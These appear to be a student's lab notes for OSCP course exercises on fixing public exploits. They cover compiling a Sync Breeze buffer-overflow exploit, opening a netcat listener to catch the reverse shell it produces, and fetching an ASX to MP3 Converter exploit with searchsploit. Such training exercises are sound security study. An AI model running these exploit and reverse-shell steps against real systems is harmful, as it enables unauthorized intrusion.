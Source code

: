 15.1.7.1

# 15.1.7.1
## 15.1.7.1.1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

Change the buffer size in 42341.c
![a799891dbe3be0a8219452a8e0febb82.png](:/3075c4a9d96047d0b703c7a28bf8a886)

Compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Open a netcat listener on port 443
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (don't set any breakpoints)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Notice we have a shell on the netcat listener
![8b60af1051195f7413f3f1527564a588.png](:/d6f48b7abe6e43bd9d8c0d07ca5a73de)



## 15.1.7.1.2. Install the ASX to MP3 Converter application located under the **C:\Tools\fixing_exploits** directory; download the exploit for ASX to MP3 Converter from EDB 391 and edit it in order to get a shell on your dedicated Windows machine.

### Download the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ searchsploit -m 38457
  Exploit: ASX to MP3 Converter 1.82.50 (Windows 2003 x86) - '.asx' Local Stack Overflow
      URL: https://www.exploit-db.com/exploits/38457
     Path: /usr/share/exploitdb/exploits/windows_x86/local/38457.c
File Type: C source, UTF-8 Unicode text, with CRLF line terminators

Copied to: /home/kali/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter/38457.c
```
